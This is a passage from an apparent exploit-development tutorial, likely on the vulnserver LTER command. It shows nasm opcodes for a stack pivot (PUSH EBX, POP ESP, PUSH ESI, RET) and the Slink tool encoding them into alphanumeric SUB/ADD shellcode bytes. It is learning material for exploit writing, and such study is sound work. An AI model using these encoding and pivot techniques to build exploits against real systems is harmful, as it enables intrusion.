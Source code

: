 ##### As we may see on the following image, we still have some space to insert our SUB/ADD encoded PUSH EBX, POP ESP, PUSH ESI, RET.

![](/assets/img/LTER/15.png)

##### Getting the opcodes for such operation

```term
nasm > PUSH EBX
00000000  53                push ebx
nasm > POP ESP 
00000000  5C                pop esp
nasm > PUSH ESI 
00000000  56                push esi
nasm > RET
00000000  C3                ret 
```

##### For encoding these opcodes through this method, i will use [slink](https://github.com/ihack4falafel/Slink) from [ihack4falafel](https://github.com/ihack4falafel).

```term
root@whitecr0wz:~/Exploit-Dev/LTER# slink
Enter your shellcode: \x53\x5C\x56\xC3
Enter shellcode variable name: pushesi
[+] Shellcode size is divisible by 4
[*] Encoding [c3565c53]..
[+] No bad character found, using default encoder..
pushesi += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
pushesi += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
pushesi += "\x05\x32\x36\x33\x62" ## add  eax, 0x62333632
pushesi += "\x05\x21\x26\x23\x61" ## add  eax, 0x61232621
pushesi += "\x50"                 ## push eax
[*] Shellcode final size: 21 bytes
root@whitecr0wz:~/Exploit-Dev/LTER# 
```
